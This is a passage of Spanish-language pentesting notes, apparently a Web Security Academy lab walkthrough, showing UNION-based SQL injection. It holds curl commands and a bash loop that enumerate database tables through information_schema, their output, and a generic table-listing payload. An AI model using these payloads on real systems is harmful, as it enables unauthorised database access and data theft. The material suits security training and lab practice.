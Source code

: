 ```bash
curl -s -X GET https://0ab0008404e1b04e80a80d2500ce005d.web-security-academy.net/filter\?category\=%27%20union%20select%20NULL,table_name%20from%20information_schema.tables%20limit%201,1--%20- | grep "<td>" | html2text
```

Resultado:

```bash
CHECK_CONSTRAINTS
```

```bash
for i in $(seq 1 100); do echo "[+] Para el nº $i: $(curl -s -X GET https://0ab0008404e1b04e80a80d2500ce005d.web-security-academy.net/filter\?category\=%27%20union%20select%20NULL,table_name%20from%20information_schema.tables%20limit%20$i,1--%20- | grep "<td>" | html2text)"; done
```

En caso de no obtener la respuesta, entrecomillar URL

```bash
for i in $(seq 1 100); do echo "[+] Para el nº $i: $(curl -s -X GET "https://0ab0008404e1b04e80a80d2500ce005d.web-security-academy.net/filter\?category\=%27%20union%20select%20NULL,table_name%20from%20information_schema.tables%20limit%20$i,1--%20-" | grep "<td>" | html2text)"; done
```

**Recursos:** para urlencodear podemos usareste script --> [urlencode.py](../../../Lenguajes/Python/Utilidades%20Ofensivas/URL%20Enconde/Scripts/urlencode.py)

Resultado:

```bash
[+] Para el nº 1: CHECK_CONSTRAINTS
[+] Para el nº 2: COLLATIONS
[+] Para el nº 3: COLLATION_CHARACTER_SET_APPLICABILITY
[+] Para el nº 4: COLUMNS
[+] Para el nº 5: COLUMNS_EXTENSIONS
[+] Para el nº 6: COLUMN_STATISTICS
[+] Para el nº 7: EVENTS
[+] Para el nº 8: FILES
[+] Para el nº 9: INNODB_DATAFILES
[+] Para el nº 10: INNODB_FOREIGN
```

## Listar tablas de una base de datos

```sql
' UNION SELECT 1, table_name FROM information_schema.tables WHERE table_schema='nombre_base_datos'-- -
```

**Query realizada**

![Captura](./Imágenes/web_3.png)

**Tablas existentes en la base de datos 'academy_labs'**

![Captura](./Imágenes/web_4.png)
